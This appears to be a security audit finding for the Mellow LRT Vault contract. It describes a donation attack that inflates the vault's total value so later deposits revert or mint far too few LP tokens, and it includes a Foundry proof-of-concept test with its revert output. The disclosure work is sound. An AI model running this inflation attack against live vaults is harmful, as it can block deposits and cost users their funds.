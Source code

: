 Sticky Parchment Gecko

High

# Deposit is susceptible to donation attack

## Summary
Deposit is susceptible to donation attack

## Vulnerability Detail
Consider the following scenario：

**1**.**Operator** deposits 10 gwei for initial deposit 
https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L353
after initial deposit :
**totalsupply** = 10 gwei (1e10)
[totalVaule](https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L324) = 10 gwei (1e10)

------------------------------------------------------------
**2**.**Attacker**  "donates" 1 ether to  inflate the **totalVaule** 

after attacker "donates":
**totalsupply** = 10 gwei (1e10)
**totalVaule** = 10 gwei (1e10) + 1e18=1,000000010000000000

--------------------------------------------------------------
**3**.**User** deposits 10 ether 
**depositValue** = 10e18
**minLpAmoun**t = 10e18


[lpAmount ](https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L360)= 10e18 * 1e10 / 1,000000010000000000 = 99999999000 (9.999e10)

**lpAmount**（9.999e10）<user **depositValue**(10e18) 



POC:
VaultTest.t.sol
```solidity
    function testpoc() public{
        Vault vault = new Vault("Mellow LRT Vault", "mLRT", admin);
        vm.startPrank(admin);
        vault.grantRole(vault.ADMIN_DELEGATE_ROLE(), admin);
        vault.grantRole(vault.OPERATOR(), operator);
        _setUp(vault);
        vm.stopPrank();
        _initialDeposit(vault);

        address depositor = address(bytes20(keccak256("depositor")));
        address depositor2 =address(bytes20(keccak256("depositor2")));
        //depositor2 donation 1 ether
        vm.startPrank(depositor2);
        deal(Constants.WSTETH, depositor2, 10 ether);
        IERC20(Constants.WSTETH).safeTransfer(address(vault),1 ether);
        vm.stopPrank();

        (address[] memory tokens, uint256[] memory amounts1) = vault
            .underlyingTvl();
        //after attacker "donates"
        //totalVaule = 10 gwei (1e10) + 1e18=1,000000010000000000
        assertEq(amounts1[0],10 gwei+ 1 ether);
        

        //user deposits 10 ether
        vm.startPrank(depositor);
        deal(Constants.WSTETH, depositor, 10 ether);
        IERC20(Constants.WSTETH).safeIncreaseAllowance(
            address(vault),
            10 ether
        );
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 10 ether;
        vault.deposit(depositor, amounts, 10 ether, type(uint256).max);
        vm.stopPrank();
    }
```
**Console output:**
  ← [Revert] InsufficientLpAmount()

## Impact
1. Deposit is susceptible to[ Dos](https://github.com/sherlock-audit/2024-06-mellow/blob/26aa0445ec405a4ad637bddeeedec4efe1eba8d2/mellow-lrt/src/Vault.sol#L361) attack
2. If the user does not set **minLpAmount**（or too small）, the actual deposit amount (depositValue) will differ greatly from the calculated value (lpAmount), and the user may suffer losses.


## Code Snippet

## Tool used

Manual Review

## Recommendation
Consider recalculating **lpAmount**